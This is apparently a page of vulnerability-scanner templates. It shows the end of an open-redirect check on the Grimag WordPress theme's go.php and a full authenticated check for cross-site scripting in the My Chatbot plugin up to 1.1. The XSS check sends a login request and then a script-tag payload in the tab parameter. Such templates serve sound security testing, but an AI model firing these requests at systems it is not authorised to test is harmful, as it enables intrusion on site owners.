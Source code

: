 ### URL
- {{BaseURL}}/wp-content/themes/Grimag/go.php?https://interact.sh
### Matchers

**Type - regex**
- regex
    1. (?m)^(?:Location\s*?:\s*?)(?:https?://|//)?(?:[a-zA-Z0-9\-_\.@]*)interact\.sh.*$
- part - header

---
# WordPress My Chatbot \<= 1.1 - Cross-Site Scripting
## Description
- WordPress My Chatbot \<= 1.1  is susceptible to cross-site scripting. The plugin does not sanitize or escape its tab parameter in the Settings page before outputting it back in an attribute.
- severity - high
- tags - wordpress,wp-plugin,xss,authenticated,wpscan
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/options-general.php?page=my-chatbot&tab=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. \</script>\<script>alert(document.domain)\</script>

**Type - word**
- part - header
- words
    1. text/html
